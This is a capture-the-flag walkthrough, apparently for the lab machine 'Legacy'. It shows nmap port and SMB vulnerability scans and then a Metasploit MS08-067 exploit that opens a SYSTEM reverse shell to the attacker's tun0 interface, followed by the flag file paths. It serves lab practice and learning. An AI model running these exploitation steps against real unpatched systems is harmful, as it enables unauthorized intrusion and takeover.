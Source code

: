 ## Box: Legacy

## Target IP: `10.10.10.4`

---

### Initial Nmap Scan

Ran:

```bash
sudo nmap -sC -sV -p- --min-rate 10000 10.10.10.4
```

Ports open:

| Port | Service | Version |
| --- | --- | --- |
| 135 | msrpc | Microsoft Windows RPC |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | microsoft-ds | Windows XP microsoft-ds |

Host is running Windows XP.

Old and wide open.

---

### SMB Vulnerability Scan

Ran:

```bash
sudo nmap --script=smb-vuln* 10.10.10.4
```

Results:

- **ms08-067**: Vulnerable.
- **ms17-010**: Vulnerable.
- Confirmed critical remote code execution paths.

---

### Exploitation

Focused on MS08-067.

Fired up Metasploit:

```bash
msfconsole
```

Searched:

```bash
search ms08-067
```

Selected exploit.

Set parameters:

```bash
set rhosts 10.10.10.4
set lhost tun0
exploit
```

Popped a shell immediately.

Verified:

```bash
getuid
```

Output:

```
Server username: NT AUTHORITY\SYSTEM
```

Root from the jump.

---

### Flags

Found user flag:

```bash
C:\Documents and Settings\john\Desktop\user.txt
```

Found root flag:

```bash
C:\Documents and Settings\Administrator\Desktop\root.txt
```

Box finished.
